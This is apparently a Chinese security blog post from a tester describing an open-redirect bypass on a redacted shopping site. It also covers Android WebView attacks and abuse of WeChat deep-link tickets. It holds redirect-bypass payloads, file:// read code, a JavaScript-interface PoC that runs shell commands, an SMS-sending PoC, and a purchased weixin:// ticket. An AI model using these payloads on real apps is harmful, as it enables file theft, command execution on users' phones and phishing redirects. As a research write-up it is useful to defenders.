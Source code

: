 ```yaml
---
layout: post
title:  URL跳转到webview安全
date: 2018-12-4 00:25:6.000000000 +08:00
---
```

# 起因
在一次测试中我用burpsuite搜索了关键词url找到了某处url
我测试了一下发现waf拦截了指向外域的请求，那么开始尝试绕过。所以有了这次的文章

# 经过
第一个我测试的url是`https://mall.m.xxxxxxx.com/jump.html?url=https://baidu.com`我打开成功跳转以为跳转成功，**but baidu.com是在白名单的**所以我就只能想办法去绕过他那么我经过了几次绕过之后发现`https://mall.m.xxxxxxx.com/jump.html?url=https:/\c1h2e1.github.io`跳转成功，这是我觉得有必要总结一下url的跳转绕过思路了，那么开始吧！！

# 正文

+	@  绕过
这个是利用了我们浏览器的特性，现在除了Firefox浏览器大部分都可以完成这样跳转下面是跳转的动态图
![aite_redirect]({{ "/assets/images/url/1.gif"|redirect}})

+	问号绕过
可以使用Referer的比如`https://baidu.com` 可以`https://任意地址/?baidu.com`

+	# 绕过
利用# 表示HTML中的锚点 `http://127.0.0.1/#qq.com` 

+	xip.io绕过
`http://www.baidu.com.127.0.0.1.xip.io/` 这样之后会访问127.0.0.1

```xip
How does it work?
xip.io runs a custom DNS server on the public Internet.
When your computer looks up a xip.io domain, the xip.io
DNS server extracts the IP address from the domain and
sends it back in the response.
```
![xip]({{ "/assets/images/url/1.png"|xip}})
在公网上运行自定义的dns服务器，用他的服务器提取IP地址，在响应中将他取回

+	反斜杠绕过
我这次测试中也是使用了这种思路
`https://mall.m.xxxxxxx.com/jump.html?url=https:/\c1h2e1.github.io`

+	IP绕过

把目标的URL修改成IP地址，这样也有可能绕过waf的拦截

+	chrome浏览器特性
```
http:/\/baidu.com
http:\//baidu.com
/\/baidu.com
http:\\\//baidu.com
```
这样的都会跳转到百度

#	url跳转到webview安全问题
我们这次的漏洞我在手机上测试的时候发现他会跳转伪协议
也就是`xxxx://app/webview?url=xxxxxxx`
其实这里的任意webview跳转已经构成漏洞了但是我想更加深入一下
看到webview我想到了利用file协议读取用戶的敏感信息那么下面的两篇文章可以补一下基础
[使用app内置webview 打开TextView中的超链接](https://www.jianshu.com/p/2c6c55b48238)
[乌云案例](http://www.anquan.us/static/bugs/wooyun-2015-0114241.html)
我们先用file://协议读取一下测试文件试一下
![host]({{ "/assets/images/url/2.png"|host}})
我们可以看到成功读取了手机的敏感host文件，但不是只要读取成功就能完成利用的，我们还需要设计到发送并读取
这边我又测试了一下JavaScript的情况，发现开启
那么我们在vps上搭建一下利用代码

```html
<html>
<head>
<title>test</title>
</head>
<script>
var xmlHttp;				//定义XMLHttpRequest对象
function createXmlHttpRequestObject(){
	//如果在internet Explorer下运行
	if(window.ActiveXObject){
		try{
			xmlHttp=new ActiveXObject("Microsoft.XMLHTTP");
		}catch(e){
			xmlHttp=false;
		}
	}else{
	//如果在Mozilla或其他的浏览器下运行
		try{
			xmlHttp=new XMLHttpRequest();
		}catch(e){
			xmlHttp=false;
		}
	}
	 //返回创建的对象或显示错误信息
	if(!xmlHttp)
		alert("error");
		else
		return xmlHttp;
}
function ReqHtml(){
	createXmlHttpRequestObject();
	path='file://'
	path1='/system/etc/hosts'
	xmlHttp.onreadystatechange=StatHandler;	//判断URL调用的状态值并处理
	xmlHttp.open("GET",path+path1,false);	//调用test.txt
	xmlHttp.send(null)
	alert(1)
}
function StatHandler(){
	if(xmlHttp.readyState==4 && xmlHttp.status==200){
		document.getElementById("webpage").innerHTML=xmlHttp.responseText;
		alert(xmlHttp.responseText)
	}
}
ReqHtml()
StatHandler()
</script>
<body>
<div id="webpage"></div>
</body>
</html>
```
在app上测试一下发现不成功。。。。
之后才得知是因为同源策略导致的，在网上各种找方法绕过后无果，没办法之好放弃。
虽然这个应用绕不过我们可以mark一点姿势
ps:很多代码都是手码的没写过JS所以可能会有一些错误不要见怪
```html
<html>
   <body>
      <script>
         function execute(cmdArgs)
         {
             return injectedObj.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
         }

         var res = execute(["/system/bin/sh", "-c", "ls -al /mnt/sdcard/"]);
         document.write(getContents(res.getInputStream()));
       </script>
   </body>
</html>
```
这个是执行命令的poc
```html
<html>
<head>
<title>Test send</title>
<script type="text/javascript">
function execute() {
	var sendsms = jsInterface.getClass().forName("android.telephony.SmsManager").getMethod("getDefault",null),invoke(null,null);
	sendsms.sendTextMessage("13722555165",null,"get",null,null);
}
</script>
</head>
<body onload="execute()">
<input type="button" onclick="="execute" value="test"/>

</body>
</html>
```
```html
<html>
<head>
<title>Test sendsms</title>
<script type="text/javascript">
function execute() {
	var sendsms = jsInterface.getClass().forName("android.telephony.SmsManager").getMethod("getDefault",null),invoke(null,null);
	sendsms.sendTextMessage("13722555165",null,"get",null,null);
}
</script>
</head>
<body onload="execute()">
<input type="button" onclick="="execute" value="test"/>

</body>
</html>
```

# 突然换目标
这是我想到了weixin的协议
`weixin://`看了官方的文档之后我发现了微信支持如下操作 
```weixin
weixin://dl/general
weixin://dl/favorites 收藏
weixin://dl/scan 扫一扫
weixin://dl/feedback 反馈
weixin://dl/moments 朋友圈
weixin://dl/settings 设置
weixin://dl/notifications 消息通知设置
weixin://dl/chat 聊天设置
weixin://dl/general 通用设置
weixin://dl/officialaccounts 公众号
weixin://dl/games 游戏
weixin://dl/help 帮助
weixin://dl/feedback 反馈
weixin://dl/profile 个人信息
weixin://dl/features 功能插件
```
那。。。我平时打开小xx网站的时候突然弹出的微信是什么鬼
经过一番查找我找到了能够跳转的方法
`weixin://dl/business/?ticket=xxxxxxxxxxxxxxxxx`
那么这个ticket哪里来呢？？？
我在t00ls上看到一篇同样关于这个微信协议的分析他说是有人在卖api我百度了一下找到了这个地址
![seoniao]({{ "/assets/images/url/3.png"|seoniao}})
我们注册并登陆尝试一下跳转
![seoniao]({{ "/assets/images/url/4.png"|seoniao}})
果然还是收费，因为写文章的时候比较早他们可能没有上班所以就换个地方找一下
![redirect]({{ "/assets/images/url/5.png"|redirect}})
我们加一下这个客服的qq
![screenshot]({{ "/assets/images/url/5.png"|screenshot}})
果然是我想象得那样
`
weixin://dl/business/?ticket=taa597ccdcdf00ecb865d9e04904bbff4
`
我们手机打开一下我得测试网页
`<a href="weixin://dl/business/?ticket=taa597ccdcdf00ecb865d9e04904bbff4">demo</a>`
成功打开微信并跳转~~~~

# 反思
在一次普通的漏洞利用中利用姿势绝不会普通，不断积累自己。 
